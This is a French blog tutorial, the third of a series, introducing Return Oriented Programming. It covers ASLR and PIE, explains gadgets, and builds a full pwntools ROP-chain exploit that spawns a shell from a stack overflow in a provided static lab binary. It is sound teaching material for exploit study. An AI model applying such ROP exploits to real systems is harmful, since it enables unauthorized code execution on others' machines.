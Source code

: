 ```yaml
---
author: "Laluka"
title: "PWN 3/4 : SaperliROPette !"
date: 2018-05-09
description: "Introcution au Return Oriented Programming (ROP) et exemple pratique."
---
```


Route du pwn, troisième et avant dernière escale, bienvenue à bord !

Hier, le simple buffer overflow et le ret2libc, aujourd'hui, le ROP, ou Return Oriented Programming, et demain... Demain la conquête du monde !!!

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/aboard.jpg" alt="aboard" >

Je vous ai laissé hier sur le ret2libc, qui, vu de loin, consiste à piocher dans la libc les fonctions qui nous intéressent. Sauf que cette attaque n'est pas possible dans le cas où le programme est compilé en statique, et difficilement faisable si l'ASLR est activé. Nous allons aujourd'hui découvrir le ROP qui nous permet de contourner ces protections.

Ca ressemble de plus en plus au jeu du chat et de la souris, so... Follow the guide cat !

1. Précisions ASLR et PIC :
Avant de commencer, un petit retour sur ces protections parfois floues.

La configuration de l'ASLR est présente dans /proc/sys/kernel/randomize_va_space. Elle peut être à 0=désactivée, 1=activée (stack et heap), 2=activée (1 + data). La valeur 2 étant la nouvelle norme en cours d'adoption par les différents systèmes, déjà effective pour la plupart.

L'ASLR laisse donc toute une surface d'attaque non randomisée. Arriva donc ce qu'il devait arriver : des attaques utilisant les sections .data, .got, .plt, ...

Plus d'informations sur les différentes sections et la structure d'un ELF ici : https://www.cs.stevens.edu/~jschauma/631A/elf.html

L'ASLR ne suffisant pas, de nouvelles protections ont été mises en place : PIC / PIE (Position Indépendant Code / Exécutable). N'ayant pas encore suffisamment étudié son fonctionnement, je ne vais pas la présenter en détail. Mais l'idée est simple... Et si on randomisait.... TOUT ?!?!?!

Le ROP fonctionne avec un ASLR partiel ou total, mais est contré par cette dernière mesure...

Suite à la prochaine contre contre-mesure ! è.é

2. Présentation de la technique :
Return... Oriented... Programming...

Hum hum... Programmer... Avec des return ? °^°'

On va profiter du fait que la section .text du programme soit toujours au même emplacement pour piocher plein de petits bouts de code appelés gadgets, et les assembler pour faire notre exploit. L'exploit est donc une suite d'adresses pointant sur de l'assembleur, donc dans l'absolu, on peut tout faire avec. La limite ? Les gadgets qui sont à notre disposition dans le programme...

Même si on "peut tout faire", la stratégie la plus commune reste de faire comme dans l'article 1 où l'on génère un shellcode qui, via un syscall, permet d'exécuter un programme de notre choix.

Une chose importante à relever ici : On a besoin de gadgets. Les gadgets, c'est du code qui ne bouge pas. Les librairies, ca bouge. Donc un programme qui se base sur les librairies aura bien moins de surface d'attaque qu'un programme compilé en statique, qui, lui, contient tout le code qu'il utilise. De même, plus un programme va être volumineux et faire des actions complexes, plus vous avez de chance qu'il y ait des gadgets intéressants. Capich ? Noice !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/noice.gif" alt="noice" >

Maintenant, abordons plus en détail les gadgets voulez-vous ?

Ils doivent tous répondre à un critère majeur : Se terminer par une instruction ret.

C'est ce critère qui rend l'attaque possible. En effet, lorsque l'on va contrôler le pointer d'instructions, on va faire en sorte que le programme exécute un premier gadget, que l'instruction ret finale indique la fin de l'exécution du premier gadget, et fasse revenir sur notre point de départ (la stack, qu'on vient d'overflow), mais une adresse plus loin. Cette adresse sera celle du second gadget et ainsi de suite.

Méfiance tout de même, si votre gadget se termine par un ret, mais contient des instructions qui modifient le flot d'exécution du programme, il risque de casser votre exploit. Donc pas de call, pas de leave, pas de "double ret", pas de bras, et surtout : pas de chocolat.

De nombreux outils permettent de lister les gadgets d'un exécutable, comme ROPgadget, Ropper, XRop, ...

3. Elaboration de l'exploit :

Le binaire étudié est téléchargable [ici](/hacking/pwn_3of4_saperliropette/vuln) !

Avant toute chose, on regarde un peu à quoi on s'attaque : x64, compilé en statique, full ASLR. Ok !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/readelf.png" alt="readelf" >

Vous avez l'habitude maintenant, le classique :

Comprendre le fonctionnement du programme, trouver le point de crash, puis l'offset !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_create.png" alt="pattern_create" >

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/crash.png" alt="crash" >

Ici encore, on voit que l'on crash sur un ret... Contrôlons-nous RSP ? Oui ! Offset ? 264 !

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/pattern_search.png" alt="pattern_search" >

Petit rappel, ret a pour effet de placer ce vers quoi pointe RSP (donc le dernier élément de la stack), dans RIP. Nous avons donc RIP sous notre contrôle. Donc... RIP !

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/dead_shell.jpg" alt="dead_shell" >

On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable : $ ropgadget --binary vuln --ropchain

L'output est long (verbeux), je n'en mets qu'une partie :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/ropgadget.png" alt="ropgadget" >

On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :

<img class="img_full" src="/hacking/pwn_3of4_saperliropette/run_exploit.png" alt="run_exploit" >

TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut "bash", alors que dans notre ropchain, on avait /bin//sh (qui est compris comme /bin/sh). Mais c'est normal, car sur ma machine, /bin/sh est un lien symbolique qui pointe vers bash ! Mon vrai sh est /usr/bin/sh.

"Mais... Ca ne concorde pas avec les exploits précédents ?!"

Wouah ! Un qui suit ! Oui, en effet...

Plus d'informations sur ce micmac ici (très bon blog du poto Pixis) : https://beta.hackndo.com/sh-vs-bash/

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit.

Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`

<img class="img_med" src="/hacking/pwn_3of4_saperliropette/like_a_boss.gif" alt="like_a_boss" >

A très vite,
